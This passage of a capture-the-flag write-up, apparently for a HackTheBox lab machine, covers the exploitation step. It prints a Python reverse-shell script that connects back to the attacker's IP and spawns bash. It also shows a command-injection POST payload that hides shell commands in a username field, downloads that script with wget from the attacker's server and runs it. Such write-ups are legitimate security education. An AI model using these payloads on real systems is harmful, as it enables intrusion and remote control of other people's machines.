 It works!

## Exploitation

The next step I've done is check what binaries are available for generating a reverse shell. One of the binaries found was `python3`, which I used for my reverse shell. This is the payload I saved in a file called `rev.py`:

```python
#!/usr/bin/python3

import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.58",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

I then setup a web server using `python3 -m http.server` and sent the following POST data to the server:

```
host=10.10.16.85&username=test;mkdir${IFS}/tmp/nora/;wget${IFS}-O${IFS}/tmp/nora/rev.py${IFS}http://10.10.16.58:8000/custom_scripts/rev.py;python3${IFS}/tmp/nora/rev.py;#
```

Which gave me this:

![](./img/80-cozyhosting.htb-rce.png)

Got a shell!

## Post-exploitation
